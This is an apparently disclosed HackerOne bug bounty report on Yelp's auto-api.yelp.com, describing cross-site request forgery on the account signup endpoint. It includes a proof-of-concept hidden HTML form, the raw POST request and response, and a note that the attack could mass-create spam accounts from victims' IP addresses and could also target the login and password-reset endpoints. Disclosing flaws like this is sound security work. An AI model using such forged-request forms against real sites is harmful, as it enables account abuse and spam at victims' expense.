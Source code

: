# CSRF on signup endpoint (auto-api.yelp.com)

## Report Details
- **Report ID**: 178831
- **URL**: https://hackerone.com/reports/178831
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-10-29T14:59:58.731Z
- **Disclosed**: 2017-03-01T17:49:09.936Z

## Reporter
- **Username**: denispugachev
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: yelp

## Vulnerability Information
Sign up request on https://auto-api.yelp.com/account/create_secure endpoint processes without any checking headers (without cookies, csrf tokens and even user-agent). 

This is sample HTML form:
---

        <html>
        <head></head>
        <body>
        <form action="https://auto-api.yelp.com/account/create_secure?time=1477751842&nonce=lej%2F%2FQ%3D%3D&ywsid=Y3yWooClkisSbx32yJG5Ww&device_type=generic%2Bvbox86p%2FKTU84P&app_version=8.16.0&cc=US&lang=en&efs=cDV544hzFZZpMD6wPVsW0GCyHGRNWhykWC%2BKKikA3b3E%2BohV0t%2FxA0eh5tL1sLQnkasS3MI2wLlfhZ01oKUYMwXvUlRB5mRf8Mit5OryQ7o%3D&signature=_qGv3pOMHN%2BUSpUucP3dKxjwALjI%3D" method="post">
        <input type="hidden" name="first_name" value="Test1" />
        <input type="hidden" name="last_name" value="Test2" />
        <input type="hidden" name="email" value="██████████" />
        <input type="hidden" name="password" value="123123qq" />
        <input type="hidden" name="user_country_code" value="AR" />
        <input type="hidden" name="city" value="12333" />
        <input type="hidden" name="confirmed" value="0" />
        
        
        <input type="submit" />
        </form>
        </body>
        </html>
        
Maybe when you will check it the signature will be expired, but it is not very difficult to generate the new one.

Request / Response
---
	POST /account/create_secure?time=1477751842&nonce=lej%2F%2FQ%3D%3D&ywsid=Y3yWooClkisSbx32yJG5Ww&device_type=generic%2Bvbox86p%2FKTU84P&app_version=8.16.0&cc=US&lang=en&efs=cDV544hzFZZpMD6wPVsW0GCyHGRNWhykWC%2BKKikA3b3E%2BohV0t%2FxA0eh5tL1sLQnkasS3MI2wLlfhZ01oKUYMwXvUlRB5mRf8Mit5OryQ7o%3D&signature=_qGv3pOMHN%2BUSpUucP3dKxjwALjI%3D HTTP/1.1
	Accept-Encoding: gzip
	Content-Type: application/x-www-form-urlencoded
	Content-Encoding: UTF-8
	Host: auto-api.yelp.com
	Connection: Keep-Alive
	Content-Length: 125

	first_name=Test1&last_name=Test2&email=█████&password=123123qq&user_country_code=AR&city=12333&confirmed=0

*****RESPONSE*****


	HTTP/1.1 200 OK
	Date: Sat, 29 Oct 2016 14:42:19 GMT
	Content-Type: application/json; charset=UTF-8
	Transfer-Encoding: chunked
	Connection: keep-alive
	Set-Cookie: __cfduid=d35a860a4d504b624ad0351d3bcdb467e1477752138; expires=Sun, 29-Oct-17 14:42:18 GMT; path=/; domain=.yelp.com; HttpOnly
	X-Node: api_com
	Cache-Control: max-age=0, must-revalidate, no-cache, no-store, private
	Expires: Sat, 29 Oct 2016 14:42:19 GMT
	Pragma: no-cache
	Set-Cookie: bse=9e2087a24cf46f0ac9ffc3a568f27917; Domain=.yelp.com; Path=/; HttpOnly
	Set-Cookie: yuv=██████████████; Domain=.yelp.com; Max-Age=630720000; Path=/; expires=Fri, 24-Oct-2036 14:42:19 GMT
	X-Content-Type-Options: nosniff
	Set-Cookie: api_s=██████████; Max-Age=630720000; Path=/; expires=Fri, 24-Oct-2036 14:42:19 GMT; HttpOnly
	Set-Cookie: api_ss=███████; Max-Age=630720000; Path=/; expires=Fri, 24-Oct-2036 14:42:19 GMT; secure; HttpOnly
	X-Node: web19-r4-sfo2
	Vary: Accept-Encoding,User-Agent
	Content-Encoding: gzip
	X-Mode: rw
	X-Proxied: extlb7-r10-sfo2
	X-Mode: rw
	X-Proxied: extlb4-r9-iad1
	Server: cloudflare-nginx
	CF-RAY: 2f9764b29e8e3798-ARN

	{"first_name": "Test1", "last_name": "Test2", "user_id": "█████", "name": "Test1 T.", "is_confirmed": false, "expiry": 1485528139, "location": "La Matanza", "name_without_period": "Test1 T", "message": {"text": "OK", "code": 0, "version": "1.1.1", "request_id": "428b82b44de28038"}, "email": "█████", "last_initial": "T"}

How it can be exploitable? 
---
Attacker can make many hidden forms with pre-generated sign up fields to make accounts from victim's IP address (for example very cheap clickunder traffic on special HTML page with hidden form). Later created accounts can be used for spam purposes.

It can be done also with login and password forget endpoint: https://auto-api.yelp.com/account/login_secure
https://auto-api.yelp.com/account/send_password_email_secure


***Please check saved Charles session file in attachments***

## Attachments
- signup_csrf.html
- session.chls
